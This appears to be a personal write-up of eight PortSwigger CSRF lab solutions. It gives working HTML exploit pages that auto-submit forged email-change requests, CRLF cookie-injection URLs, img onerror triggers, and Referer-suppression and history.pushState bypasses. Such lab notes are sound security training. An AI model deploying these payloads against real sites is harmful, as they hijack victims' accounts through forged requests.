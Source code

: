 <span style="color:yellow;font-weight:700;font-size:30px">
Cross-site request forgery (CSRF)

</span>
https://portswigger.net/web-security/csrf

# [1. Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

goal:
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host: 0aa700d004d14148c0977450001c00a8.web-security-academy.net
Cookie: session=yCKgkq71rWvYSZOkOdEht0vvA2kdgiS3
..

email=attacker%40gmail.com


2. create a form on the server with the url from stage 1 - to be sent in clients behalf when he enters the maliocious site:
<html>
    <body>
        <form action="URL" method="POST">
            <input type="hidden" name="email" value="email@new.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

3. final payload: 
#
  <html>
    <body>
        <form action="https://0aa700d004d14148c0977450001c00a8.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


if site supports GET it can be done in a single line (without need for a site):
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">





# [2. Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
smae as last lab - just change requets to GET:

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host:0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net
..
email=attacker@gmail.com

2. change to GET method and copy url:
https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com


3. use this template:
<html>
    <body>
        <form method="GET" action="URL">
            <input type="hidden" name="email" value="email@new.com">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>

# final payload:

<html>
    <body>
        <form method="GET" action="https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com">
            <input type="hidden" name="email" value="blablabla" />
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>


# [3. Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.


ommit the CSRF header in exploit site it as if it has no csrf (pretty dumb application of the CSRF):
<html>
    <body>
        <form action="https://0a27009a045fca44c096adf700fd0027.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>!

# [4. Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. login and send request to change email - get 302 and send to repeater. try to resend the req from the reapeter and get 400 "Invalid CSRF token"
now we know its a 1-time token

2. intercept and catch 3 requests to reapeter for further analasys. open incognito window, sign in and do the same for carlos. make sure you drop each messege after sending to the repeater

3. try to use unused token of peter on peter old request to check coralation between session and toke. do it also for token from carlos on session of peter (or vice versa)
now we know no coralation exist we can use our token with any other user seesion

4. prepare html POST form with email and cdrf values. make sure to use only unsused token. test exploit on yourself. once successed - replce token with unused token and send it to victim.

working exploit:

<html>
    <body>
        <form action="https://0a2500e603186d67c02c0121009f009e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
            <input type="hidden" name="csrf" value="Raj0C3E8iKUphSJxB587fdoYsYIxwTrt" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


# [5.Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)


1. change csrf value - 400 "Invalid CSRF token"
2. change csrfKey value - 400 "Invalid CSRF token"
csrf values are paired
3. change session value - 302 login to new session
probably not related to csrf values
4. login to carlos in incognito mode send email-change request to repeater. 
5. use carlos csrf with peter csrfKey - 400 "Invalid CSRF token"
6. use peter csrf value pair on carlos session - 302 found
check at my account page to make sure it changed.
7. look for "Set-Cookie" HEADER in site responses: find set-cookie reflected on response to: GET /?search=bla HTTP/1.1  -->send to repeater
8. craft HEADER-injecting payload using %0d%0a (\r\n) which will be parsed into:
    ?search=bla \r\n
    set-cookie: csrfKey={csrfKey value}
final cookie-injecting payload:
/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP
10. test on repeter - 400 "Potentially dangerous search term". request in browser and see csrf cookie added with injected value
11. craft <img> tag to force-visit the cookie-loading link and execute onerror-submition of the form:
<img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">

12. craft html on exploit. make sure to use a paired csrf and csrfKey values:

<html>
    <body>
        <form method="POST" action="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="evil@new.com" />
            <input type="hidden" name="csrf" value="I3cdY6uXw5SWiE2FbnphGtw7GO2V2wH1" />
        </form>
        <img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">
    </body>
</html>


    
# [6. Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

1. check relation between csrf and csrfKey, check if any string will work as long as it will be identical between the 2 param

2. find set-cookie injection point and craft url:
https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=amotzrules

3. craft malicious site at exploit server:

<html>
    <body>
        <form action="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="success@gmail.com" />
            <input type="hidden" name="csrf" value="amotzrules" />
            <input type="submit" value="submit request" />
        </form>
        <img src="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrf=amotzrules" onerror="document.forms[0].submit()">
    </body>
</html>

note2self: not like lab 5 - there is no csrfKey - just csrf in both locations...

# [7. Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

research refferer HEADER manipulation yeilds the following command:
<head>
<meta name="referrer" content="never">
</Head>


lets use it inside our exploit center with the form format of the previouse lab:
<html>
    <head>
        <meta name="referrer" content="never">
    </Head>
    <body>
        <form action="https://0a31004204da258bc0af6329003a00be.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


lab specific materials:
https://www.w3schools.com/tags/tag_meta.asp // what is <meta> tag
https://wiki.whatwg.org/wiki/Meta_referrer //  types of meta referrer commands:
The referrer metadata attribute can have one of four values for its content attribute:
    never
    always
    origin
    default


also:
https://moz.com/blog/meta-referrer-tag#How%20to%20use%20the%20meta%20referrer%20tag
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy


# [8. Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. test referer HEADER limitition: what is the shortest version of the url, does it need to be on the start or the end, 

original:
Referer: https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account
302 found
0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found
https:google.com#https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found

command to use:
History.pushState()
https://developer.mozilla.org/en-US/docs/Web/API/History/pushState
In an HTML document, the history.pushState() method adds an entry to the browser's session history stack. 
craft to add the referrer url to the HEADER:
<script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
</script>


lets craft our final html payload on the exploit server:

<html>
    <script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
    </script>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


important:
since browser ommit the strings after the "?" as default, lets add the refferer policy to force using the full url. we will insert it on the Head section:

Referrer-Policy: unsafe-url


#
unsuccessful tries:
worked on peter account - didnt work on victim: 

File:
/exploit?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net

Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

Body:
<html>
    <head>
        <meta name="referrer" content="always">
    </Head>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>



###############################3333

general materials:
Defending against CSRF with SameSite cookies
https://portswigger.net/web-security/csrf/samesite-cookies

CSRF tokens
https://portswigger.net/web-security/csrf/tokens

XSS vs CSRF
https://portswigger.net/web-security/csrf/xss-vs-csrf